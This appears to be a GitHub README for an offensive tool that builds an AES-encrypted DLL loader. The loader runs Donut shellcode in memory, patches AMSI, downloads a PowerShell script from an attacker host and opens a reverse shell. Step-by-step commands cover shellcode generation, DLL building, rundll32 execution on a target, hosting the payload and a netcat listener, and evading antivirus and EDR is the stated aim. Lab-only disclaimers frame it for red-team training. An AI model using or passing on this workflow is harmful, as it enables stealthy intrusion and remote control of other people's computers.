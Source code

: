 # 🧬 AES-Encrypted DLL Loader – Donut + PowerShell

## ⚡ Quick Overview
This project builds a DLL which, when executed (e.g., via `rundll32`), decrypts in-memory shellcode previously generated and encrypted with AES. The shellcode is created using [Donut](https://github.com/TheWover/donut) and contains a C# loader that downloads and runs a PowerShell script, ultimately establishing a reverse shell.

> **Warning:**  
> Use this project **only** in controlled lab environments and for educational purposes. Any unauthorized usage in production environments can be illegal and is the sole responsibility of the user.

---

## 🎯 Motivation
Shellcode generated by tools like `msfvenom` often triggers modern antivirus and EDR solutions. Even encoders might not bypass typical behavioral signatures. To improve evasion:

- **Donut** is used instead of `msfvenom` to produce shellcode from a .NET executable.
- The shellcode is **AES-encrypted** via a custom Python script.
- The DLL (`loader.dll`) decrypts and executes the payload in memory, making it harder to detect.

This method is intended for Red Team exercises or advanced pentesting labs (like OSEP). It has been tested with **Windows Defender enabled**.

---

## 🧩 Step 1: Compile the C# Loader
1. Open `Loader.cs`.
2. This loader **patches AMSI** using .NET Reflection, then downloads a remote PowerShell script (`shell.ps1`) and executes it in-memory.
3. Update the hardcoded IP/URL so that it points to the machine hosting `shell.ps1`.

**Note on dependencies:**  
You might need to reference `System.Management.Automation.dll`, for example:

    C:\Program Files\WindowsPowerShell\Modules\PowerShellGet\<version>\System.Management.Automation.dll
    
Also ensure that your PowerShell execution policy allows scripts to run, or use a bypass method.

---

## 🏗️ Step 2: Generate Shellcode with Donut
Use Donut to transform your .NET executable (`Loader.exe`) into raw shellcode:
    
    donut.exe -i Loader.exe -a 2 -f 1 -b 1 -o shellcode.bin

**Explanation of flags**:
- `-a 2`: Target architecture (x64)
- `-f 1`: Output format: raw shellcode
- `-b 1`: AMSI/WLDP/ETW bypass level  
    - `1`: **No bypass**  
  - `2`: Abort on failure  
  - `3`: Continue on failure

> **Tip:** This Donut command is tested on Windows. You can transfer `shellcode.bin` to a Linux machine for encryption.

---

## 🏷️ Step 3: Encrypt and Compile
Run the `AES_DLL_Builder.py` script to embed (or not) the encryption key.

### Option A: Standalone (key embedded)

    python3 AES_DLL_Builder.py --standalone shellcode.bin

It will generate `loader.dll` with the key embedded. Then, on the Windows target:

    rundll32 loader.dll,EPoint

### Option B: Non-Standalone (key supplied at runtime)

    python3 AES_DLL_Builder.py --non-standalone shellcode.bin

On the Windows target:

    rundll32 loader.dll,EPoint "my_key_123"

---

## 🌐 Step 4: Host the PowerShell Script
1. Create a `shell.ps1` file containing reverse shell logic (for example):
    
        $client = New-Object System.Net.Sockets.TCPClient("192.168.1.XX",443)
        # ...
    
2. Serve it via HTTP:
    
        python3 -m http.server 80
    
3. Ensure the IP and port in `shell.ps1` match your listening service.

---

## 📡 Step 5: Start a Netcat Listener
Set up a netcat listener (optionally with `rlwrap` to improve shell handling):
    
    rlwrap -cAr nc -lnvp 443

---

## ⚠️ Legal Disclaimer
This project is provided **exclusively** for educational purposes and authorized penetration testing.  
**Do not** use it without explicit permission, as it may violate local laws and regulations.  
The authors assume no responsibility for any misuse or damage caused by this software.

